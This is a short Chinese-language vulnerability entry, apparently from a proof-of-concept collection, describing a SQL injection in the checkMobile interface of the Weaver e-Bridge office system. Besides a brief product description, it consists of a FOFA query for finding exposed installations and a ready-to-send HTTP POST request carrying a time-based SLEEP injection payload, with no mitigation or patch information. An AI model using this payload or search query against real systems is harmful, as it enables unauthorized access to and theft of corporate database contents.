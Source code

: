 # 泛微云桥e-Bridge系统checkMobile存在SQL注入漏洞
泛微云桥e-Bridge 是一款办公自动化工具，主要提供文档管理、流程管理、协同办公、知识管理和移动办公等功能。它的目标是将企业内部的各种业务流程数字化，并通过云端技术实现跨部门、跨地域的协同办公和信息共享。该产品 checkMobile接口存在SQL注入漏洞，通过此漏洞攻击者可获取企业数据库敏感数据。

## fofa
```javascript
app="泛微-云桥e-Bridge"
```

## poc
```javascript
POST /taste/checkMobile?company=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(5-(IF(18015%3E3469,0,4)))))mKjk)%20OR%20%27KQZm%27=%27REcX&openid=1&source=1&userName=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1734314946886-bc51d38e-16bd-4416-aa8c-56e40e24692a.png)

